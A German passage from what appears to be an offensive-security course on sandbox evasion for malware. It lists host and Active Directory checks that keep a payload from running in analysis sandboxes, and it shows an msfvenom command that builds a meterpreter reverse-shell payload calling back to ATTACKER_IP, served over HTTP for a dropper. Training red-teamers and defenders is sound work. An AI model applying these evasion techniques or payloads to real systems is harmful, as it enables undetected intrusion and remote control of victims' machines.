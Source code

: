 Die meisten Arbeitsstationen in einem Netzwerk verfügen typischerweise über 2-8 CPU-Kerne, 8-32 GB RAM und 256 GB bis über 1 TB Speicherplatz. Dies hängt stark von der Organisation ab, die du angreifst, aber allgemein kannst du mit mehr als 2 CPU-Kernen pro System und mehr als 4 GB RAM rechnen. Mit diesem Wissen können wir unseren Code so anpassen, dass grundlegende Systeminformationen abgefragt werden (Anzahl der CPU-Kerne, Menge des RAM, Festplattengröße usw.).

Hier ist keine vollständige Liste, aber hier sind einige zusätzliche Beispiele für Dinge, auf die du filtern könntest:

- Seriennummer des Speichermediums
- PC-Hostname
- BIOS/UEFI-Version/Seriennummer
- Windows-Produktschlüssel/OS-Version
- Netzwerkadapter-Informationen
- Virtualisierungsprüfungen
- Aktuell angemeldeter Benutzer
- und vieles mehr!

### Netzwerkinformationen abfragen

Die letzte Methode ist die offenste Methode, die wir behandeln werden. Aufgrund ihrer Offenheit gilt sie als eine der fortschrittlicheren Methoden, da sie das Abfragen von Informationen über die Active Directory-Domäne umfasst.

Fast keine Malware-Sandboxes sind in eine Domäne integriert, daher ist es relativ sicher anzunehmen, dass, wenn die Maschine nicht in eine Domäne integriert ist, sie nicht das richtige Ziel ist! Du kannst jedoch nicht immer ganz sicher sein, daher solltest du einige Informationen über die Domäne sammeln, um auf der sicheren Seite zu sein. Es gibt viele Objekte, die du abfragen kannst; hier einige Beispiele:

- Computer
- Benutzerkonten
- Letzte Benutzeranmeldungen
- Gruppen
- Domain Admins
- Enterprise Admins
- Domain Controller
- Dienstkonten
- DNS-Server

Diese Techniken können in der Schwierigkeit variieren; daher solltest du überlegen, wie viel Zeit und Mühe du in den Aufbau dieser Evasion-Methoden investieren möchtest. Eine einfache Methode, wie das Überprüfen der Umgebungsvariablen des Systems (dies kann mit `echo %VARIABLE%` oder um alle Variablen anzuzeigen, mit dem Befehl `set` durchgeführt werden) nach einem Element wie dem LogonServer, LogonUserSid oder LogonDomain, kann viel einfacher sein als die Implementierung einer Windows-API.

### Die Bühne vorbereiten

Jetzt, da du ein besseres Verständnis davon hast, welche Arten von Sandbox-Bypass-Methoden existieren, werden wir im nächsten Schritt einige dieser Sandbox-Bypässe implementieren.

Bevor wir zum nächsten Schritt übergehen, beginnen wir mit einem einfachen Dropper, der Shellcode von einem Webserver (speziell von /index.raw) abruft, in den Speicher injiziert und den Shellcode ausführt. Es ist wichtig zu beachten, dass aller Shellcode mit MSFVenom im Rohformat generiert werden muss und 64-Bit, nicht 32-Bit, sein muss. Er kann mit folgendem Befehl generiert werden.
```shell
user@attack-box$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f raw -o index.raw
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Saved as: index.raw
user@attack-box$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.212 - - [20/Mar/2022 22:04:22] "GET /index.raw HTTP/1.1" 200 -
```